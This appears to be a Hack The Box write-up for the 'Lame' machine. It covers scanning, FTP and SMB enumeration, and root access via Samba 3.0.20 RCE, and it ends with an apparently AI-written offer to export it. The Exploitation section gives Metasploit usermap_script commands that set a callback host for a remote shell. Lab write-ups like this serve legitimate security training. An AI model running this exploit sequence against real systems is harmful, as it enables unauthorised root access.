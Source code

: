 # Hack The Box - Lame Write-Up

You can access the machine [here](https://www.exploit-db.com/exploits/16320) on Hack The Box.


- **Target IP:** `10.10.10.3`

---

## 🌐 Initial Scanning

1. **Ping the target to check if it's alive:**
   ```bash
   ping 10.10.10.3
````

2. **Performed an Nmap scan:**

   ```bash
   nmap -sT -Pn -A 10.10.10.3
   ```

   **Nmap Results:**

   * **FTP (21/tcp)**: vsftpd 2.3.4 (Anonymous login allowed)
   * **SSH (22/tcp)**: OpenSSH 4.7p1
   * **SMB (139/tcp)**: Samba 3.0.20-Debian

---

## 🔎 Enumeration

### FTP

* Anonymous login was allowed:

  ```bash
  ftp 10.10.10.3
  ```

  * Logged in as `ftp`, but no useful files were found.

### SMB

* Samba version `3.0.20` was identified.
* Searched for known vulnerabilities and found it was **vulnerable to remote code execution**.

---

## 💥 Exploitation

* Found a matching exploit on [Exploit-DB](https://www.exploit-db.com/) and confirmed it was available in **Metasploit**.

* Launched Metasploit and used the `usermap_script` exploit:

  ```bash
  use exploit/multi/samba/usermap_script
  set RHOST "htb vm ip"
  set lhost "htbvpn ip"
  set lport 4444 #any port
  run
  ```

* Gained a **root shell** successfully.

---

## 🏁 Post Exploitation

* Verified root access with:

  ```bash
  id
  ```

  * Output: `root`

* Retrieved the user and root flag.

---

**Status:** ✅ Root access obtained via Samba RCE vulnerability.

```

Let me know if you want this exported as a PDF or if you’d like to make it into a general HTB exploit report template!
```
